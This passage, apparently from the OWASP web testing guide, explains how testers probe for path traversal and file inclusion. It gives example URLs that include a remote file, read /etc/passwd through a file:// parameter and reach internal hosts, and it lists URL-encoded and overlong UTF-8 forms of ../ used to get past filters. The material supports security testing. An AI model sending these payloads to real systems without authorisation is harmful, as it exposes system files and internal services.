 It's also possible to include files and scripts located on external website:

```text
http://example.com/index.php?file=http://www.owasp.org/malicioustxt
```

If protocols are accepted as arguments, as in the above example, it's also possible to probe the local filesystem this way:

```text
http://example.com/index.php?file=file:///etc/passwd
```

If protocols are accepted as arguments, as in the above examples, it's also possible to probe the local services and nearby services:

```text
http://example.com/index.php?file=http://localhost:8080
http://example.com/index.php?file=http://192.168.0.2:9080
```

The following example will demonstrate how it is possible to show the source code of a CGI component, without using any path traversal characters.

```text
http://example.com/main.cgi?home=main.cgi
```

The component called `main.cgi` is located in the same directory as the normal HTML static files used by the application. In some cases the tester needs to encode the requests using special characters (like the `.` dot, `%00` null, etc.) in order to bypass file extension controls or to prevent script execution.

**Tip:** It's a common mistake by developers to not expect every form of encoding and therefore only do validation for basic encoded content. If at first the test string isn't successful, try another encoding scheme.

Each operating system uses different characters as path separator:

- Unix-like OS:
  - root directory: `/`
  - directory separator: `/`
- Windows OS:
  - root directory: `<drive letter>:`
  - directory separator: `\` or `/`
- Classic macOS:
  - root directory: `<drive letter>:`
  - directory separator: `:`

We should take in to account the following character encoding mechanisms:

- URL encoding and double URL encoding
  - `%2e%2e%2f` represents `../`
  - `%2e%2e/` represents `../`
  - `..%2f` represents `../`
  - `%2e%2e%5c` represents `..\`
  - `%2e%2e\` represents `..\`
  - `..%5c` represents `..\`
  - `%252e%252e%255c` represents `..\`
  - `..%255c` represents `..\` and so on.
- Unicode/UTF-8 Encoding (it only works in systems that are able to accept overlong UTF-8 sequences)
  - `..%c0%af` represents `../`
  - `..%c1%9c` represents `..\`
